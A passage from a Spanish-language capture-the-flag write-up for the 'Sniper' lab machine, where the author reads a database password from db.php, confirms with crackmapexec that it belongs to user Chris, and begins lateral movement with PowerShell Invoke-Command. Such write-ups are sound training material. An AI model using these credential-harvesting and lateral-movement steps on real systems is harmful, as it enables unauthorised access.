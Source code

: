 ```

PS C:\inetpub\wwwroot\user> gc db.php  	
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

El script "db.php" crea una conexión con un servidor MySQL en el localhost utilizando las siguientes credenciales:

- <p style="font-size: 16px;">Nombre de usuario: "dbuser"</p>
- <p style="font-size: 16px;">Contraseña: "36mEAhz/B8xQ~2VM"</p>
- <p style="font-size: 16px;">Base de datos: "sniper"</p>

Esta conexión se utiliza para interactuar con la base de datos MySQL desde la aplicación web.

Ahora sería bueno intentar descubrir a qué usuario le pertenece el password "36mEAhz/B8xQ~2VM" que encontramos en el archivo db.php; vamos a listar los usuarios presentes en el sistema y luego usar la herramienta 'crackmapexec' para probar las credenciales:

```
PS C:\inetpub\wwwroot> Get-WmiObject -Class win32_UserAccount | Select-Object Name


Name              
----              
Administrator     
Chris             
DefaultAccount    
Guest             
WDAGUtilityAccount
```

```
┌─[ot3ro@parrot]─[~]
└──╼ $crackmapexec smb 10.10.10.151 -u "Chris" -p "36mEAhz/B8xQ~2VM"

SMB         10.10.10.151    445    SNIPER           [*] Windows 10.0 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.10.10.151    445    SNIPER           [+] Sniper\Chris:36mEAhz/B8xQ~2VM 
```
Hemos descubierto que la contraseña "36mEAhz/B8xQ~2VM" le pertenece al usuario Chris.

## <span style="color: yellow;">Movimiento-Lateral</span>

A continuación vamos a intentar ejecutar comandos en el sistema *local* como el usuario Chris, para esto vamos a usar el cmdlet 'Invoke-Command' esta herramienta nos ayuda a ejecutar comandos en una máquina remota o en la máquina local de PowerShell,
para usarla tenemos que especificar las credenciales del usuario , en este caso vamos a crear un objeto con las credenciales del usuario Chris. La sintaxis básica de 'Invoke-Command' que usaremos va a ser la sig: 
```powershell
"Invoke-Command -ComputerName <nombre_máquina> -Credential <dominio\usuario> -ScriptBlock {<comando a ejecutar>}".
```

